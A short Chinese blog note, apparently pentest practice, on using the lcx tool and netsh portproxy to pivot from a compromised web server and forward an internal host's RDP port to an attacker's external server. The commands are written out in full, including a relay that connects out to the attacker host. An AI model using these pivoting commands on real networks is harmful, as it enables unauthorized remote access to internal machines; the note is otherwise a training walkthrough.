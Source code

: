 ```yaml
---
title: LCX工具的使用
categories: 工具使用
tags: lcx的使用和举例
---
```

> 原由：今天老大要我们复现lcx的端口转发

工具：lcx  
目的：登陆内网主机192.168.1.130的3389服务

受害者内网的主机（无法出网 但是能和内网的主机进行交互）：192.168.1.130内网ip  
受害者内网的主机(跳板 能出网)：192.168.1.103内网ip  
攻击者的外网服务器：120.79.66.57

1、通过受害者的主机的web服务拿到了服务器的shell权限  
2、放入lcx.exe进行端口转发  
3、首先192.168.1.103执行命令netsh interface portproxy add v4tov4 listenport=53
listenaddress=192.168.1.103 connectaddress=192.168.1.130 connectport=3389  
4、在120.79.66.58执行lcx.exe –listen 4444 5555 （监听的4444端口的流量转发到5555端口上）  
5、192.168.1.103执行lcx.exe -slave xxx.xxx.xxx.xxx 4444 192.168.1.103 53  
7、120.79.66.58进行远程连接 mstsc xxx.xxx.xxx.xxx:5555->192.168.1.130:3389

